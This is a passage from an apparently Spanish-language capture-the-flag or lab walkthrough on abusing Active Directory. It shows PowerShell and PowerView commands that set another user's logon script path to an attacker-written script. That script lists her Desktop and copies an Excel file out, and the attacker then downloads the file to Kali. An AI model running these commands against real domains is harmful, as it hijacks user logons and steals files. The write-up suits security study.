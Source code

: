 
En este caso, lo que realizaremos es crear un script (.ps1) que contenga la instrucción de listar el contenido del directorio C:\Users\Maria\Desktop y lo almacene el resultado en el directorio que estamos actualmente en el archivo "output.txt".

Este script le asignaremos de nombre "test.ps1", una vez creado el script, procederemos a asignarle el script en la ruta de inicio de sesión del usuarioo, para que cuando el usuario acceda al equipo, se ejecute el script.

Verificamos que el contenido obtenido nos muestra que la usuaria dispone de un Excel (Engines.xls) en el directorio Desktop de su usuario.

```powershell
echo "ls C:\Users\Maria\Desktop > C:\ProgramData\test\output.txt" > test.ps1

Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\test\test.ps1'}

dir

type output.txt
```

<figure><img src="../../../.gitbook/assets/3156_vmware_on9DTLX7VZ.png" alt=""><figcaption></figcaption></figure>

Una vez sepamos que existe este archivo en el directorio C:\Users\Maria\Desktop. El siguiente paso será realizar una copia de ese archivo al directorio en el que nos encontramos actualmente.

Para ello modificaremos de nuevo el script anterior "test.ps1" e indicaremos que realice la copia del archivo a nuestro directorio actual.

Al volver a comprobar el directorio actual, verificamos que se nos ha copiado correctamente el archivo "Engines.xls" que procederemos a descargarnos a nuestra Kali.

```powershell
echo "copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\test\" > test.ps1

dir

download Engines.xls
```
